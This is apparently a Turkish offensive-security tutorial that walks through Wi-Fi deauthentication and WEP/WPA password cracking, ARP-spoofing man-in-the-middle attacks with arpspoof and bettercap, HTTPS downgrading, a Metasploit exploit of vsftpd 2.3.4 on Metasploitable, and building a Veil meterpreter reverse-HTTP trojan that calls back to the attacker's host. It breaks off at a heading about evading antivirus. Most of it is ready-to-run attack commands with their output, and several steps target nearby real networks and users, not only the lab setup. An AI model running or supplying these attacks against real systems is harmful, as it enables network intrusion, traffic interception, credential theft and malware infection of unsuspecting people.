- `hidden wiki` araması yaparak Dark Web uzantısına sahip `.onion` uzantılı linkleri bulabiliriz.



# Ufak Bir Terminal Trick'i
Dökümantasyonun kalan kısmında bolca kod/komut örnekleri göreceğiz. Linux dağıtımlarında; <br>
**Normal yetkilere sahip kullanıcılar** tarafından çalıştırılan komutlar `$` ile başlarken.
```
$ ifconfig
>>> eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.87  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::76e6:e2ff:fe28:35bc  prefixlen 64  scopeid 0x20<link>
        ether 74:e6:e2:28:35:bc  txqueuelen 1000  (Ethernet)
        RX packets 148698  bytes 183420481 (174.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 68290  bytes 10119801 (9.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
.
.
.

```
**Üst düzey yetkili root kullanıcılar** tarafından çalıştırılan komutlar `#` ile başlar.
```
# ifconfig
>>> eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.87  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::76e6:e2ff:fe28:35bc  prefixlen 64  scopeid 0x20<link>
        ether 74:e6:e2:28:35:bc  txqueuelen 1000  (Ethernet)
        RX packets 148715  bytes 183426397 (174.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 68308  bytes 10123370 (9.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
.
.
.
```

# Ağlara Saldırmak
Dökümanımızın bu bölümünde bolca `wlan0` argümanını göreceğiz. Ağ arayüzümüzü temsil eder. Benim cihazımda `wlan0` olarak gözüktüğü için argüman olarak `wlan0` gönderiyorum. **Döküman boyunca `wlan0` gördüğümüz yerlerin argüman olduğunu ve kendinize ait işlem yapmak istediğiniz ağ arayüzünüzü kullanmanız gerektiğini lütfen unutmayın.** :innocent:
- Ağ arayüzlerimizi listelemek ve öğrenmek için `ifconfig` komutunu kullanabiliriz.
- Sadece wireless arayüzlerimizi listelemek için ise `iwconfig wlan0` komutunu kullanabiliriz. Yine kendinize ait ağ arayüzünü argüman olarak göndermeniz gerektiğini lütfen unutmayınız. :innocent:
## Saldırı Öncesi Ayarlar
### MAC Adresi Değiştirmek
Cihazlar birbirleriyle iletişim kurarken MAC adresleri üzerinden iletişim kurarlar. Fakat bunu sistemsel olarak değiştirebiliriz.
- `ifconfig wlan0 down` ağ arayüzümüzü düşürüyoruz, servis dışı bırakıyoruz.
- `macchanger wlan0 --random` komutu ile ilgili ağ arayüzümüzün MAC adresini değiştiriyoruz. Çıktıdan da görüleceği üzere MAC adresi başarılı bir şekilde değişmiş oldu.
- `ifconfig wlan0 up` komutu ile tekrar ağ arayüzümüzü aktif hale getiriyoruz.
```
# ifconfig wlan0 down
# macchanger wlan0 --random
>>> Current MAC:   2a:f9:66:3e:94:53 (unknown)
Permanent MAC: 4c:bb:58:42:c3:89 (unknown)
New MAC:       82:b3:a4:1e:dd:08 (unknown)

# ifconfig wlan0 up

# ifconfig
>>> wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.105  netmask 255.255.255.0  broadcast 192.168.1.255
        ether 82:b3:a4:1e:dd:08  txqueuelen 1000  (Ethernet)
        RX packets 11961  bytes 1369251 (1.3 MiB)
        RX errors 0  dropped 2  overruns 0  frame 0
        TX packets 1262  bytes 228105 (222.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
### Monitor ve Managed Mod
**Ufak bir not: `wlan0` ve `wlan0mon` argümanlarının cihazdan cihaza değişebileceğini lütfen unutmayın :innocent: Kendi ağ arayüzlerinizi listelemek için `ifconfig` kullanabilirsiniz** :innocent: <br>
**Monitor Mode:** herhangi bir ağa bağlanmadan pasif olarak ilgili ağdaki tüm trafiği izlememize olanak sağlayan mod. <br>
**Managed Mode:** istemcimizin bir ağa bağlanarak hizmet aldığı mod. <br>
##### Mod Değiştirmek İçin 1. Yöntem (airmon-ng)
- `airmon-ng start wlan0` ile monitör mod'a geçebiliriz.
- `ifconfig` ile veya `iwconfig wlan0mon` ile monitör mod'a geçip geçmediğimize bakabiliriz.
- `airmon-ng stop wlan0mon` ile geri managed mod'a geçebiliriz.
```
# airmon-ng start wlan0
>>> Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    909 wpa_supplicant
  16148 NetworkManager

PHY     Interface       Driver          Chipset

phy0    wlan0           ath9k           Qualcomm Atheros QCA9565 / AR9565 Wireless Network Adapter (rev 01)

                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)


# iwconfig wlan0mon
>>> wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=16 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off


# airmon-ng stop wlan0mon
>>> PHY     Interface       Driver          Chipset

phy0    wlan0mon        ath9k           Qualcomm Atheros QCA9565 / AR9565 Wireless Network Adapter (rev 01)

                (mac80211 station mode vif enabled on [phy0]wlan0)

                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)
```
##### Mod Değiştirmek İçin 2. Yöntem (iwconfig)
- `ifconfig wlan0 down` komutu ile ilgili ağ arayüzümüzü servis dışı bırakırız
- `iwconfig wlan0 mode monitor` ilgili ağ arayüzümüzü **monitor** moda geçiririz
- `ifconfig wlan0 up` ilgili ağ arayüzümüzü tekrar devreye sokarız
- `iwconfig wlan0` ile ilgili ağ arayüzümüzün modunu kontrol edebiliriz
```
# ifconfig wlan0 down
# iwconfig wlan0 mode monitor
# ifconfig wlan0 up
# iwconfig wlan0
>>> wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=16 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off

```
- Geri çevirmek istersek ise aynı komutları **managed mode** için yapıyoruz.
-  `ifconfig wlan0 down` komutu ile ilgili ağ arayüzümüzü servis dışı bırakırız
- `iwconfig wlan0 mode managed` ilgili ağ arayüzümüzü **managed** moda geçiririz
- `ifconfig wlan0 up` ilgili ağ arayüzümüzü tekrar devreye sokarız
- `iwconfig wlan0` ile ilgili ağ arayüzümüzün modunu kontrol edebiliriz
```
# ifconfig wlan0 down
# iwconfig wlan0 mode managed
# ifconfig wlan0 up
# iwconfig wlan0
>>> wlan0     IEEE 802.11  ESSID:"SUPERONLINE_WiFi_9547"  
          Mode:Managed  Frequency:2.462 GHz  Access Point: 64:6D:6C:65:03:82   
          Bit Rate=39 Mb/s   Tx-Power=16 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality=24/70  Signal level=-86 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:1  Invalid misc:2   Missed beacon:0
```
## Ağlarla İlgili Bilgi Toplamak
### Ağları İncelemek (Sniffing)
Networkler üzerindeki trafikleri izlemeye verilen isim **sniffing**'dir.
- Öncelikle eğer monitör modda değilsek `airmon-ng start wlan0` ile monitör moda geçebiliriz.
- Teyit etmek için bir üst başlıktan bildiğimiz `iwconfig wlan0mon` komutunu kullanabiliriz.
- **Sniffing** yapmak için `airodump-ng wlan0mon` komutunu kullanabiliriz. Bu sayede etrafımızdaki ağları ve onlarla ilgili bilgileri görebiliriz. `ctrl + c` kombinasyonu ile çıkış yapabiliriz.
```
# airmon-ng start wlan0
# airodump-ng wlan0mon
```

**airodump-ng** sonucu gelen veriler ne anlama gelmektedir?
- **BSSID** -> MAC Adresi 
- **PWR** -> Power, ağların bize uzaklığıdır. Absolute olarak küçüldükçe bize yaklaşmaktadır. Yani -84 olarak gözüken ilk ağ -85 olana göre daha yakındadır
- **Beacons** -> Sinyaller
- **#Data** -> Elimizde olan, kullanabileceğimiz datalar
- **CH** -> Channel, veri alış-verişi hangi kanaldan yapılıyor onu göstermektedir
- **ENC** -> Encryption, ağın nasıl şifrelendiğini göstermektedir. WPA2 diğerlerine göre daha güvenlidir
- **CIPHER** -> Decrypt modeli
- **ESSID** -> Ağın adıdır
### Belirli Bir Ağa Özel Bilgi Edinmek
Temel olarak yapı şu şekildedir: `airodump-ng --channel <channel> --bssid <bssid> --write <file-name> <interface>`
- `# airodump-ng --channel 11 --bssid 64:6D:6C:65:03:82 --write deneme.txt wlan0mon` komutu ile tek bir bssid'e ait trafiği izlemeye başladık. Ve bize bu ağa bağlı cihazların MAC adresleri (**STATION**) vb. kritik bilgileri verecektir. `--write` argümanını geçersek aldığı bilgileri bir dosyaya yazacaktır.
```
# airodump-ng --channel 11 --bssid 64:6D:6C:65:03:82 --write deneme.txt wlan0mon   
```


Ağa özel bilgi edindikten sonra gelen veriler bir önceki başlığa ek olarak;
- **Frames** -> Paket alış-verişindeki paketlerin sayısını verir.
- Bu ekrandaki çıktıdan daha detaylı olan bilgi `--write` argümanı ile yazılan `.cap` uzantılı dosya içerisinde bulunur.
### Deauth Saldırısı
Deauth saldırısı kısaca hedef cihaz ile host arasındaki iletişimi keserek (**deauthentication paketleri** göndererek) hedefi ağdan düşürme saldırısıdır. Bunu da `aireplay` aracını kullanarak yapacağız. <br>
**Deauth Paketi Nedir?** <br>
Bir client (istemci/biz) bağlı olduğu kablosuz ağ ile olan bağlantısını koparmak istediğinde aslında istemci, kablosuz ağa bir deauthentication paketi gönderir ve bağlantıyı sonlandırır. Biz de bu saldırıda başkalarının (hedef) adına modemlere (kaynak) deauthentication paketleri göndereceğiz ve hedefleri ağdan düşüreceğiz.<br>
Temel komut dizimi şu şekildedir: `aireplay-ng --deauth <packets> -a <kaynak_mac> -c <hedef_mac> <interface>` <br>
Bu saldırıda mantık şu şekilde işlemektedir; **kaynak, düşürmeye çalıştığımız hedefe: 'ben senden ayrılacağım' diyor, hedef de kaynağa diyor ki: 'ben senden ayrılacağım'**. Aslında ikisi de birbirlerine bir şey demiyor. Biz kendilerinin yerlerine geçip yine kendilerine bir şeyler söylüyoruz gibi düşünebiliriz.
- `aireplay-ng --deauth 10000 -a 64:6D:6C:65:03:82 -c 0E:80:62:12:28:0D wlan0mon` komutu ile kaynak MAC ve hedef MAC'e deauth paketleri (10000 adet) yolluyoruz.
- Eğer kısa süreli ağdan düşsün ve geri bağlansın istersek 5 10 adet paket yollayabiliriz.



## Ağlara Saldırmak
**Ufak Bir Not:** <br>
Bu bölümdeki işlemleri yaparken ağ arayüzümüzün **monitör** modda olduğundan emin olalım. Aynı zamanda `wlan0` ve `wlon0mon` argümanlarının kendi ağ arayüzlerinizi temsil ettiğinden lütfen emin olun. :innocent:
### Encryption (Şifreleme Modelleri)
- WEP (Wired Equivalent Privacy)
  - Authentication (Kimlik doğrulama) yoktur.
  - Kırılması WPA'ye göre daha kolaydır.
- WPA (Wi-Fi Protected Access)
  - TKIP,Wpa şifreleme için kabul edildi. Wep’te değişmeyen 64bit ve 128bit şifreleme anahtarı kullanılmıştır. 
  - TKIP her paket için dinamik olarak yeni bir 128bit anahtar üretir ve bu yönüyle wep’teki zaafiyetlerin önüne geçti.
  - Wpa’nın saldırganlara yönelik attığı adım ile saldırganın veri paketlerini değiştirmesini ve değiştirdiği paketlerin gönderilmesini önlemek için tasarlanmış bir ileti bütünlüğü kontrolü(Message Integrity Check) sağlamaktadır.
- WPA2 (Wi-Fi Protected Access) 
  - Şuan hala kullanımımız da bulunan en güvenilir kablosuz ağ şifrelemesidir. 
  - TKIP’den, hem gizlilik hem de bütünlük açısından korunmasında önemli ölçü de güçlüdür.
  - Aes güçlü güvenlik tabanlı şifreleme içerdiği için 2004’te sertifikası başladı ve 2006 dan itibaren tüm yeni cihazlarda WPA2 sertifikası zorunlu kılındı.
#### WEP
##### WEP Cracking
WEP cracking yaparken adım adım şu yolları izleyeceğiz:
- Etraftaki ağları izleyip **WEP şifrelemesine sahip** bir hedef ağ belirleyeceğiz -> `airodump-ng wlan0mon`
- Hedef ağa karşı sniffing yapacağız. Ardından ele geçirdiğimiz bilgileri dosyaya yazacağız -> `airodump-ng --channel <channel> --bssid <bssid> --write <file-name> <interface>`
-  `aircrack-ng` sayesinde verileri decrypt ederek şifreyi kırmaya çalışacağız. -> `aircrack-ng <filename.cap>` Unutmamalız ki bu işlem paket alış-verişi yapılırken gerçekleşecektir. Bu sebeple bir yandan da `airodump-ng` ile hedef ağa dair bilgileri toplamaya devam etmeliyiz. 5000 pakette bir deneme yapacaktır ve bulduğu an bize şifreyi verecektir.
-  Dönen şifre içerisinden `:` işaretlerini kaldırmalıyız
##### Fake Auth (Sahte Yetkilendirme)
[WEP Cracking](#wep-cracking) yaparken ağ üzerindeki paketleri izlediğimizi söylemiştik. Peki ya hiç paket alış-verişi yoksa ne yapacağız? Kendimizi ağa tanıtıp bizi dinlemesini sağlayabiliriz. Tam bu noktada Fake Auth saldırısı ile kendimizi sahte olarak yetkilendirebilir ve hedef ağa paket enjekte edebiliriz. <br>
Temel komut dizilimi şu şekildedir -> `aireplay-ng --fakeauth 0 -a <hedef_mac> -h <kendi_mac_adresimiz> <ag_arayuzu/interface>` <br>
Bu komuttan sonra tekrar hedef ağa `airodump-ng` ile sniffing yaparsak kendi MAC adresimizi de ağa bağlı cihazlar listesinde görebiliriz. Fakat sadece ağa kendimizi tanıtmış olduk, bu ağı şu an kullanamayız.
##### Package Injection (Paket Enjeksiyonu)
Hedef ağ üzerinde paket alış-verişi yaparak veri akışını sağlarız
- Önce hedef ağa Fake Auth ile kendimizi tanıtırız/yetkilendiririz
- Temel komut dizilimi şu şekildedir -> `aireplay-ng --arpreplay -b <hedef_mac> -h <kendi_mac_adresimiz> <ag_arayuzu/interface>`
- Bu komuttan sonra hedef ağ üzerinde çok sayıda paket alış-verişi yapılmaya başlanır. Ardından `airodump-ng` ile izlediğimiz ağdan elde ettiğimiz verileri yazdığımız dosyayı `aircrack-ng` ile decrypt ederek şifreyi bulmaya çalışırız

#### WPA
Öncelikle [Handshake](#handshake-3-way-handshake) yakalamaya çalışacağız. İçinde muhtemel şifrelerin olduğu bir **Wordlist** hazırlayacağız ve oluşturduğumuz Handshake'e karşı şifreleri deneyeceğiz
##### Handshake Yakalamak
`airodump-ng` Handshake'i yeni bir kişi ağa bağlanınca yakalayabilir. 2 şey yapabiliriz.
- 1-) Bekleriz ki yeni birisi ağa bağlansın
- 2-) Mevcut ağa bağlı birini [Deauth Saldırısı](#deauth-sald%c4%b1r%c4%b1s%c4%b1) ile ağdan düşürürüz ve yeniden bağlanmasını sağlarız. Yakalanan Handshake sağ üstte gözükecektir (`airodump-ng` ile hedef ağı izlerken). Yakaladığımız Handshake yazdığımız dosya içerisinde vardır ve oluşturduğumuz Wordlist'i bu Handshake'e karşı deneyebiliriz
##### Wordlist Oluşturmak
Wordlist oluşturmak için **CRUNCH** adı verilen tool'u kullanabiliriz. <br>
Temel komut dizimi şu şekildedir -> `crunch <min> <max> <char> -t <pattern> -o <dosya_adi>`
```
# crunch 8 9 xyz123 -o testwordlist
>>> Crunch will now generate the following amount of data: 115893504 bytes                                                                                                
110 MB                                                                                                                                                                
0 GB                                                                                                                                                                  
0 TB                                                                                                                                                                  
0 PB                                                                                                                                                                  
Crunch will now generate the following number of lines: 11757312                                                                                                      
                                                                                                                                                                      
crunch: 100% completed generating output 

# cat testwordlist
>>> xxzxx2z3                                                                                                                                                              
xxzxx21x                                                                                                                                                              
xxzxx21y                                                                                                                                                              
xxzxx21z                                                                                                                                                              
xxzxx211                                                                                                                                                              
xxzxx212                                                                                                                                                              
xxzxx213                                                                                                                                                              
xxzxx22x                                                                                                                                                              
xxzxx22y     
.
.
.
.

```
##### Handshake'e Karşı Wordlist Kullanmak
Oluşturduğumuz Wordlist'i yakaladığımız Handshake'e karşı kullanacağız. <br>
Temel komut dizimi şu şekildedir -> `aircrack-ng <yakaladigimiz_handshake_bulunan_dosya.cap> -w <word_list_dosyamiz>`
```
# aircrack-ng deneme-01.cap -w testwordlist
```
## Bağlantı Sonrası Yapılacaklar
Bu bölümde yapılan uygulamalar ve çalıştırılan komutlar 2 cihazında (biz ve hedef) aynı ağda olduğu varsayılarak yapılmıştır. Hedef olarak Virtualbox üzerinde Windows10 işletim sistemi kurdum ve Network modunu [Bridge](#bridge-mod) olarak ayarladım. <br>
Aynı zamanda bu bölümde yazdığım:
- `192.168.1.218` ->  hedef cihazımın IP adresi
- `192.168.1.87` -> benim cihazımın IP adresi
- `192.168.1.0/24` -> yine bana ait IP taraması yaparken kullanacağım adres. Eğer ki siz hedef bilgisayarınızı ve kali cihazınızı sanal makina üzerinden çalıştırıyorsanız Nat Mod'da çalıştırmanız durumunda IP adresleri `10.0.1.0/24` ve `10.0.1.12` vb. şekilde değişebilecektir :innocent: Adreslere değil komutlara, tool'lara ve çalışma mantıklarına odaklanmakta fayda var :innocent:
### Bağlandığımız Ağları İncelemek
#### Netdiscover
Mevcut bağlı olduğumuz ağ üzerindeki IP adreslerini taramamızı sağlayan tool'dur. Temel komut dizimi şu şekildedir -> `netdiscover -i <interface> -r <range>`
- `netdiscover -i wlan0 -r 192.168.1.0/24` -> 0/24 sonu 0-24 arasındakiler demek değildir. **Şimdilik** tüm IP adresleri olarak bilsek yeterlidir.
```
# netdiscover -i wlan0 -r 192.168.1.0/24 // -i argümanını yollamak zorunda değiliz
>>>  Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                       
                                                                                                                                                                     
 15 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 864                                                                                                    
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     64:6d:6c:65:03:79      6     360  HUAWEI TECHNOLOGIES CO.,LTD                                                                                       
 192.168.1.20    6c:ef:c6:6b:81:1e      3     180  SHENZHEN TWOWING TECHNOLOGIES CO.,LTD.                                                                            
 192.168.1.46    64:76:ba:b5:1b:dc      1      60  Apple, Inc.                                                                                                       
 192.168.1.21    0e:80:62:12:28:0c      1      60  Unknown vendor                                                                                                    
 192.168.1.218   08:00:27:e6:e5:59      2      84  PCS Systemtechnik GmbH                                                                                            
 192.168.1.36    0e:80:62:eb:2d:50      1      60  Unknown vendor                                                                                                    
 192.168.1.105   0e:80:62:42:c3:89      1      60  Unknown vendor  
```
#### Nmap
Nmap aracını da bağlı olduğumuz ağdaki IP adreslerini bulmak için kullanabiliriz. Temel komut dizimi şu şekildedir -> `nmap <IP>`
```
# nmap 192.168.1.0/24
>>> Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-22 19:44 +03
Nmap scan report for 192.168.1.1
Host is up (0.00031s latency).
Not shown: 995 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
990/tcp open  ftps
MAC Address: 64:6D:6C:65:03:79 (Huawei Technologies)

Nmap scan report for 192.168.1.20
Host is up (0.0015s latency).
All 1000 scanned ports on 192.168.1.20 are closed
MAC Address: 6C:EF:C6:6B:81:1E (Shenzhen Twowing Technologies)

Nmap scan report for 192.168.1.21
Host is up (0.0025s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 0E:80:62:12:28:0C (Unknown)

Nmap scan report for 192.168.1.36
Host is up (0.0020s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
62078/tcp open  iphone-sync
MAC Address: 88:E9:FE:EB:2D:50 (Apple)

Nmap scan report for 192.168.1.38
Host is up (0.010s latency).
All 1000 scanned ports on 192.168.1.38 are filtered (828) or closed (172)
MAC Address: 0E:80:62:95:DB:42 (Unknown)

Nmap scan report for 192.168.1.218
Host is up (0.00025s latency).
All 1000 scanned ports on 192.168.1.218 are filtered
MAC Address: 08:00:27:E6:E5:59 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.1.87
Host is up (0.0000070s latency).
All 1000 scanned ports on 192.168.1.87 are closed

Nmap scan report for 192.168.1.105
Host is up (0.0000090s latency).
All 1000 scanned ports on 192.168.1.105 are closed

Nmap done: 256 IP addresses (8 hosts up) scanned in 64.19 seconds

```
#### Wireshark
Ağları incelemek için kullanılan program. Terminale `wireshark` yazarak açabiliriz.


### Man In The Middle (Ortadaki Adam/MITM)
MITM saldırısında olay kısaca şu şekilde işlemektedir;
- Kurban, sunucuya bir istek atar ve sunucu ona cevap verir (klasik bir network trafiği)
- Fakat MITM saldırısında biz **Kurban'a: "sunucu benim"** diyoruz <br> 
 **Sunucuya da: "kurban benim"** diyoruz <br> 
 Bu sayede Network Trafiği bizim üzerimizden akmaktadır ve gelip giden paketlere müdahale edebiliriz
- Daha da kısa olarak: Network trafiğinde client ile host arasına girerek trafikten bilgi alıyoruz
- Bu saldırıyı MAC adresleri üzerinden gerçekleştiriyoruz. Bunun sebebini [Üst başlıklarda](#mac-adresi) açıklamıştık


#### ARP Spoof (ARP Kandırma)
[ARP](#arp-address-resolution-protocol)'nin ne olduğunu yine üst başlıklarda açıklamıştık. Bu sistemde bir açık bulunmaktadır. ARP isteği almadan ARP cevabı gönderme hakkımız bulunmaktadır. Bu açığı kullanarak MITM saldırısında bulunacağız<br>
Temel komut dizimi şu şekildedir:
 - `arpspoof -i <interface> -t <target_IP> <sunucu_IP/modem_IP>` -> Bu şu anlama gelmektedir: <target_IP>'yi sanki <sunucu_IP/modem_IP>'ymişim gibi kandıracağım
 - `arpspoof -i <interface> -t <sunucu_IP/modem_IP> <target_IP>` -> Bu da şu anlama gelmektedir: <sunucu_IP/modem_IP>'yi sanki <target_IP>'ymişim gibi kandıracağım
- Yani önce hedefe modemmiş gibi, sonra da modeme hedefmiş gibi davranıyoruz.
- Fakat bu kadar yapmamız yetmez. Bu şekilde bırakırsak hedef'in ağı çöker ve İnternet'e giriş yapamaz. Biz kendi kalimiz üzerinde IP yönlendirmesini aktif hale getirmeliyiz. 
  - Bunun için de `echo 1 > /proc/sys/net/ipv4/ip_forward` komutunu kullanırız. Bunu Kali'yi her aç-kapa yaptığımızda yapmalıyız
- Yukarıdaki işlemlerin her birinin farklı terminallerde çalışması gerektiğini söylemeye gerek yoktur sanırsam :innocent:

```
# arpspoof -i eth0 -t 192.168.1.218 192.168.1.1
# arpspoof -i eth0 -t 192.168.1.1 192.168.1.218
# echo 1 > /proc/sys/net/ipv4/ip_forward
```
### Web Sunucu Kurmak
- `systemctl start apache2` komutu ile birlikte Kali makinamızda default gelen apache2 sunucusunu başlatabiliriz
- `cd /var/www/html/` komutu ile www klasörüne geçiyoruz. Sunucumuz içerisindeki dosyalar bu klasörden serve edilir. IP'ye istek gelince bu sunucu altındaki `index.html` gösterilir
- Makinamızın IP adresine istek atarsak bu dizindeki `index.html` gösterilecektir

### Bettercap
- MITM saldırılarını yapmamıza yardımcı olan tool
- `apt-get install bettercap` komutu ile tool'u makinamıza yüklüyoruz
- Tool'u açmak için temel komut dizilimi -> `bettercap -iface <interface>`
- Programı açtıktan sonra:
  - `nmap` ile yaptığımız işlemi burada da yapabiliriz
  - `net.probe on` komutu ile birlikte ağdaki IP adreslerini ve MAC adreslerini bulabiliriz
  - `net.show` komutu ile tüm ağları daha detaylı tablo olarak görebiliriz


#### Bettercap ile ARP Spoof 
- `set arp.spoof.fullduplex true` -> komutu ile ARP spoof modumuzu etkin hale getirdik
- `set arp.spoof.targets 192.168.1.218` -> komutu ile hedef IP adresimizi belirtiyoruz. Başka hedeflerimiz de varsa `,` ile ayırarak argüman olarak yollayabiliriz
- `arp.spoof on` -> komutu ile ARP Spoof saldırımızı başlatabiliriz
- Hedef makinamızda ARP tablosuna bakarsak, modem (192.168.1.1) ile Kali makinamızın (192.168.1.87) MAC adreslerinin aynı olduğunu göreceğiz

#### Bilgileri Çalmak
`net.sniff on` -> Komutu ile hedef makina(/lar)mızdaki paketleri dinlemeye başlayabiliriz.
- Aşağıdaki örnek hedef makina dinlenirken `google.com` isteği attığında yakalanmıştır

- Bu yöntemler genelde **HTTP** sitelerde çalışacaktır. HTTPS siteleri kırmayı aşağıdaki başlıklarda göreceğiz



### HTTPS Kırmak
- Hedefimizin IP adresini belirleriz -> **1-2**
- Hedefimize karşı arp spoof başlatırız -> **3**
- Ağda ne olup bittiğini izlemeye başlarız -> **4**
- HTTPS siteleri HTTP'ye yönlendiririz -> **5**
```
1-) set arp.spoof.fullduplex true
2-) set arp.spoof.targets 192.168.1.218
3-) arp.spoof on

4-) net.sniff on

5-) hstshijack/hstshijack
```

# Bilgisayarları Ele Geçirmek
Port açıklarını, sistem hataları vb. açıkları kullanarak sisteme sızmaya çalışacağız. <br>
Bu bölümdeki komutlarımızı ve tool'larımızı kullanırken hedefimiz [Metasploitable](https://sourceforge.net/projects/metasploitable/) (indirme linki örnektir!) olacak.  
## Metasploitable
Metasploitable, üzerinde bilerek açık bulunduran bir sistemdir. Bir sunucu olarak düşünebiliriz. Ağ'daki Metasploitable IP adresini yazarsak üzerinde çalışan web sunucusuna gidecektir. Bunu sanal makinamıza kurmamız gerekmektedir. 


<br> <br>
username -> **msfadmin** <br>
password -> **msfadmin** <br>
Metasploitable içerisinde de Linux komutlarını çalıştırabiliriz.



## Zenmap
### Kurulum
- [Bu adresten](https://nmap.org/book/inst-linux.html) Zenmap kurulumu için gerekli yönergeleri görebiliriz
- `apt-get install alien` ile `rpm` paketlerini `deb` paketlerine derlememizi sağlayan programı indiriyoruz
- `dpkg -i <paket_adi>` komutu ile yeni oluşan `.deb` dosyamızı yüklüyoruz
- Artık terminalde `zenmap` yazarsak Zenmap'i açabiliriz



### Kullanım
[Metasploitable](#metasploitable) makinamız açıkken üzerinde tarama gerçekleştireceğiz
- Terminale `zenmap` yazdıktan sonra programımız açılacaktır
- Sol üstte **Target** kısmına hedef cihazımızın IP adresini yazıyoruz
- Sağ üstte **Profile** kısmında ise ne tür bir tarama yapmak istediğimizi belirtiyoruz
- Orta kısımdaki **Command** kısmı ise `nmap`'te aynı işlemi yapmamız için kullanmamız gereken komut dizilimini göstermektedir. Dilersek `nmap` açarak ve ilgili komut dizilimini kullanarak da aynı sonuçları elde edebiliriz



## Msfconsole
Terminale `msfconsole` yazarak tool'u çalıştırabiliriz. İçerisinde bir çok **exploit**  bulundurmaktadır. <br>
Temel komut dizilimi şu şekildedir: `use <exploit_adi>`
- Metasploitable cihazımıza karşı Zenmap ile taramamız sonucu elde ettiğimiz 21 Portunda çalışan FTP servisinin `vsftpd 2.3.4` versiyonlu açığını kullanacağız



- Bulduğumuz versiyon ile google da basit bir `vsftpd 2.3.4 exploit` şeklinde arama gerçekleştiriyoruz
- Örnek adrese [buradan](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor) erişebilirsiniz
- Aşağıda (örnek adres için geçerli, diğer sitelerde konum değişebilir) ki gibi **işaretli** alanı kopyalayıp `msfconsole` içerisinde kullanmamız gerekiyor



- Hangi exploiti kullanmak istediğimizi belirtiyoruz
```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > 
```
- `show options` ile seçenekleri/parametreleri görebiliriz. Buradaki **RHOST** hedef IP'yi temsil etmektedir. **RPORT** ise hedef ile hangi port üzerinden iletişime geçmek istediğimizi belirtir
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

>>> module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)

                                                                                                                                                                      
Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
- `set RHOSTS <IP>` ile Hedef IP'yi, `set RPORT <PORT>` ile iletiişim için kullanılacak port numarasını set edebiliriz
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.179
>>> RHOSTS => 192.168.1.179
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
>>> RPORT => 21
```
- `exploit` komutunu çalıştırarak hedef cihazı sömürmeye başlayabiliriz



- Diğer exploitleri kullanmak için de basit bir şekilde google'da arama yapabiliriz

# Kullanıcılara Saldırmak
Sistemlerde açık bulamadığımız zaman direkt olarak kullanıcılara **Trojan** ile saldırmayı deneyebiliriz.

## Veil
[Veil Framework](https://github.com/Veil-Framework/Veil) bizim için trojan oluşturmamızı sağlayan bir tool'dur. Kurulumu basit bir şekilde kendi dökümantasyonunu kullanarak yapabiliriz. Kurulumu başarılı bir şekilde yaptıysak konsolda `veil` komutu ile Veil Framework'u çalıştırabiliriz.
- `list` ile kullanılabilir araçları listeleyebiliriz
- `use <tool_number>` ile kullanmak istediğimiz araca geçiş yapabiliriz ve `list` ile o araçtaki Trojanları listeleyebiliriz
- `back` ile önceki sayfaya geçebiliriz



### Trojan Oluşturmak
```
# veil  # veil'i açtık
Veil>: use 1  # 1. aracı seçtik
Veil/Evasion>: list # araçtaki trojanları listeledik
Veil/Evasion>: use 26 # 26 numaralı trojanı seçtik

[python/meterpreter/rev_http>>]: set LHOST 192.168.1.87 # LHOST değişkenini set ediyoruz, kendi IP adresimiz
[python/meterpreter/rev_http>>]: set LPORT 8080

[python/meterpreter/rev_http>>]: generate # Trojan'ı oluşturuyoruz, bize çıktı olarak nereye oluşturduğunu verecektir
```


Oluşturduğumuz Trojan dosyasını Veil'in bize gösterdiği path (dizin) altında bulabiliriz



### Anti-Virüslere Yakalanmamak
